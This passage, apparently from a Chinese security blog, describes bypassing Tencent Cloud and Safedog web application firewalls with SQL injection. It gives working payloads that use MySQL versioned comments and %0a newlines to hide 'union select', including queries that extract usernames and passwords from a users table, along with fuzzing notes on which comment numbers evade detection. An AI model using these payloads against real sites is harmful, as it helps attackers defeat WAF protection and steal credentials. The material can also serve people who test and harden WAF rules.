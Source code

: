那么关键的点就是绕过这个select关键字

- select all
- select distinct
- select distinctrow

```
既然这些都可以，再想想使用这样的语句怎么不被检测到？select与all中间肯定不能用普 通 的 /**/ 这 种 代 替 空 格 ， 还 是 会 被 视 为 是 union+select 。 select all 可 以 这 么 表 达/*!12345select all*/，腾讯云早已识破这种烂大街的招式。尝试了下/*!*/中间也可以使 用%0a换行
```

payload:

```sql
select user,password from users where user_id=1 union/*!12345%0aselect%20all*/	被拦截
说明腾讯云在语法检测的时候会忽略掉数字后面的%0a换行，虽然属于union+12342select，但简单的数字和关键字区分识别还是做得到。
```

`/*!12345%0aselect%20all*/`还是会被拦截，这就说明腾讯云在语法检测的时候会忽略掉数字后面的%0a换行，虽然属于union+12342select，但简单的数字和关键字区分识别还是做得到。再测试`/*!12345select%0aall*/`结果就合乎推理了，根据测试知道腾讯云安全会忽略掉%0a换行，这就等于`union+12345selectall`， 不会被检测到。（忽略掉%0a换行为了过滤反而可以用来加以利用进行Bypass）

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyybvvpgi8j20m70awadq.jpg)

最终payload

```sql
id=1 union /*!12345select%0aall*/	因为把%0a忽略，加上/*12345*/绕过可union select检测
```

**Bypass Payload:**

```
1' union/*!50000select%0aall*/username from users%23
1' union/*!50000select%0adistinct*/username from users%23
1' union/*!50000select%0adistinctrow*/username from users%23
```

## 4.安全狗

不是绕不过狗，只是不够细心：

```sql
union+select拦截。
select+from拦截。
union+from不拦截。
fuzz了下/*!50000select*/这个5位数，前两位数<50 && 第二位!==0 && 后三位数==0即可bypass。(一点细节也不要放过。)
```

```
post:
id=1' union/*30100select*/user,password from users%23
```



![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyyd1s0dvpj20sa0ittlp.jpg)

在上一个网站被拦截，但是另一个网站不拦截

